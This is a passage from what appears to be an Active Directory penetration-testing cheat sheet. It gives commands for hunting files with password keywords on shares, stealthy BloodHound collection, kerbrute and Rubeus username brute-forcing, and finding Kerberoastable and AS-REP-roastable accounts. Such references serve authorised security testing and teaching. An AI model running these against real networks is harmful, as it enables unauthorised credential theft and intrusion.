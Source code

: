 ### Sensitive Files Search

```powershell
# Search for sensitive files on shares
Find-DomainShare -CheckShareAccess
Find-InterestingDomainShareFile -Include *.txt,*.docx,*.xlsx,*.config

# Using keywords in file search
Find-InterestingDomainShareFile -Keywords "password","creds","confidential"
```

## Special Enumeration Techniques

### Bloodhound Collection

```powershell
# Import SharpHound module (on domain-joined machine)
Import-Module .\Sharphound.ps1

# Collect data
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Temp

# Stealth collection methods
Invoke-BloodHound -CollectionMethod Session,LoggedOn -Stealth
```

```bash
# From Linux using bloodhound-python
bloodhound-python -u user -p 'password' -ns 10.10.10.100 -d domain.local -c All
```

### ADIDNS Enumeration

```powershell
# Using PowerView
Get-DomainDNSRecord -ZoneName domain.local

# Using standard Windows commands
Get-DnsServerResourceRecord -ZoneName domain.local -ComputerName dc01.domain.local
```

## Kerberos-Based Enumeration

```bash
# Kerberos user enumeration (valid usernames don't return KDC_ERR_PREAUTH_REQUIRED)
python3 kerbrute.py -domain domain.local -users users.txt -dc-ip 10.10.10.100

# From Windows using Rubeus
.\Rubeus.exe brute /users:users.txt /domain:domain.local /outfile:valid_users.txt
```

```powershell
# Check for Kerberoastable accounts
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

# Check for AS-REP Roastable accounts (don't require Kerberos pre-authentication)
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth
```
